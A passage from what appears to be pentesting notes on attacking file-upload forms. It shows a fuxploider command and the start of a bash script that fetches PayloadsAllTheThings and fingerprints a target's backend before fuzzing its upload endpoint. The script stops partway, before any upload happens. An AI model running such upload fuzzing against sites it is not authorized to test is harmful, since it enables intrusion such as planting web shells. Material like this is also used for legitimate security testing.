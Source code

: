 ```bash
fuxploider -u $WEBSITE --form-action /upload
```

#### [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

{% hint style="info" %}
Fuzz Extension & Content-Type
{% endhint %}

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano fuzz-uploader.sh
```

```bash
#!/bin/bash

# Check if upload URL is provided
if [ "$#" -lt 1 ]; then
    echo "Usage: $0 $WEBSITE/upload"
    exit 1
fi

# Read upload URL from command-line arguments
UPLOAD_URL="$1"
REPO_URL="https://github.com/swisskyrepo/PayloadsAllTheThings.git"
TARGET_FOLDER="/usr/share/PayloadsAllTheThings"

# Function to detect backend language based on HTTP response headers
detect_backend_language()
{
    RESPONSE=$(curl -s -I "$UPLOAD_URL")
    
    # Check for PHP by detecting "X-Powered-By: PHP"
    if echo "$RESPONSE" | grep -i "X-Powered-By: PHP" > /dev/null; then
        echo "php"
    # Check for ASP.NET by detecting "X-Powered-By: ASP.NET"
    elif echo "$RESPONSE" | grep -i "X-Powered-By: ASP.NET" > /dev/null; then
        echo "asp"
    # Check for HTML by detecting absence of PHP or ASP.NET
    elif echo "$RESPONSE" | grep -i "Content-Type: text/html" > /dev/null; then
        echo "html"
    else
        echo "unknown"
    fi
}

# Clone the repository if not already cloned
if [ ! -d "$TARGET_FOLDER" ]; then
    echo "Cloning repository to $TARGET_FOLDER ..."
    git clone --depth 1 "$REPO_URL" "$TARGET_FOLDER"
    if [ $? -ne 0 ]; then
        echo "Error: Failed to clone the repository."
        exit 1
    fi
else
    echo "Repository already exists at $TARGET_FOLDER. Pulling latest changes..."
    cd "$TARGET_FOLDER" && git pull --depth 1
    if [ $? -ne 0 ]; then
        echo "Error: Failed to update the repository."
        exit 1
```